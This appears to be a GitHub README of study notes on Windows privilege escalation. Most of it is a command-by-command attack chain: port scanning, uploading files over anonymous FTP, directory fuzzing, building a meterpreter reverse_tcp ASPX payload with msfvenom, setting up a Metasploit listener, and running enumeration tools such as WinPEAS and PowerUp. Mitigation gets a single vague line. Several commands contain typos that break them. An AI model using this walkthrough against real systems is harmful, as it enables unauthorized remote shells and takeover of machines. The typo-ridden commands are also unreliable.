 # winescalation
Windows Privilege Escalation

Intro:
A cyberattack technique for Gaining unauthorized access to your windows and gaining more control or higher privileges than what is typically allowed. It is possible due to weakness or vulnerability in the system.

Example - Login to website with someone's account

AIM:
->Gain administrative control
->Access restricted resources
->Maintain persistence
->Expand lateral movement
->Evade detection and security measures

2 types:

1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.

2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 

->It basically requires some type of privilages in your hand.

->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.

nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000

If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=yourip lport=80,443,53,445(prefer or 80) -f aspx -o robensive.aspx 

now upload robensive.aspx

run metasploit listener

msfdb run 
uer exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost=yourip
set lport=445(as used before)
run

Now access robensive.aspx via browser and get meterpreter

getuid 
getprivs
##Completer Initiall Access##

Enumeration for privsec
->some known scripts:
PowerUp
WinPEAS
PrivescCheck
BeRoot
PayloadAllThings
->Now we can try poetential ways to privilage escalation over the system to be a administrative user
->Many automation scripts

Practical part
shell
net localgroup administrators -> got  all users
net user "username"
exit

1.Powerup (google it)
wget from github
load
load powershell
help
powershell_import PowerUp.ps1
powershell_execurte Invoke_powerup(can cause problem to use  for powerups

2.Privescheck(google it)
powershell_import PrivescCheck.ps1
powershell_execurte Invoke_PrivescCheck

3.WinPeas(install from github)
upload winpeasx64.exe(on meterpreter)
shell
winpeasx64.exe


4.Beroot(install from github )
upload beRoot.exe
shell 
beroot.exe

#Priviege Escalataion
->Based on enumeration we will exploit the machine.

Mitigation:
Based on vulnearabilities , different mitigation should be applied
